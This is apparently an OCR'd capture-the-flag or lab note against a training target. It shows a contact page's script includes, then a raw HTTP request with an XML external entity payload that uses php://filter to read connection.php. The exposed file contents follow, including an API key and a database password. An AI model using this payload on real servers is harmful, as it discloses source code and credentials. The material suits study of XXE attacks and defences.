 ```html

	<div id="dropDownSelect1"></div>
	<script src="vendor/jquery/jquery-3.2.1.min.js"></script>
	<script src="vendor/animsition/js/animsition.min.js"></script>
	<script src="vendor/bootstrap/js/popper.js"></script>
	<script src="vendor/bootstrap/js/bootstrap.min.js"></script>
	<script src="vendor/select2/select2.min.js"></script>
	<script>
		$(".selection-2").select2({
			minimumResultsForSearch: 20,
			dropdownParent: $('#dropDownSelect1')
		});
	</script>
	<script src="vendor/daterangepicker/moment.min.js"></script>
	<script src="vendor/daterangepicker/daterangepicker.js"></script>
	<script src="vendor/countdowntime/countdowntime.js"></script>
	<script src="js/main.js"></script>
</body>

```


```js
POST /submitDetails.php HTTP/1.1
Host: 10.129.101.192
Content-Length: 269
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.101.192
Referer: http://10.129.101.192/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php"> --> esto es lo que hay que modificar
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
<?php

$api_key = "UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg";

try {
	$conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9");
}

catch ( exception $e ) {
 	echo $e->getMessage();
}

?>
```

